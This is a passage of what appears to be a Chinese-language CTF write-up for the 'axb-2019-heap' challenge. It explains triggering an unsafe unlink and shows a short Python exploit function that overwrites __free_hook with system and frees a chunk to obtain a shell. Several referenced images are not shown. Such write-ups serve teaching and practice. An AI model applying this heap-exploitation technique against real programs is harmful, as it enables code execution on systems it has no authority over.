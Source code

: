 ![](./axb-2019-heap/image_8.png)

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;3. delete to trigger unsafe unlink

![](./axb-2019-heap/image_9.png)

![](./axb-2019-heap/image_10.png)

![](./axb-2019-heap/image_11.png)

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;完成后，chunk0_ptr将指向fake_fd，即`target_addr - 0x18`的位置；

&ensp;&ensp;&ensp;&ensp;接着进行pwn操作；

```Python
def pwn():
    edit(0, p64(0)*3 + p64(__free_hook) + p64(0x10))
    # debug(0)
    edit(0, p64(system_addr))
    # pause()
    delete(2)
    pause()

    p.interactive()
```
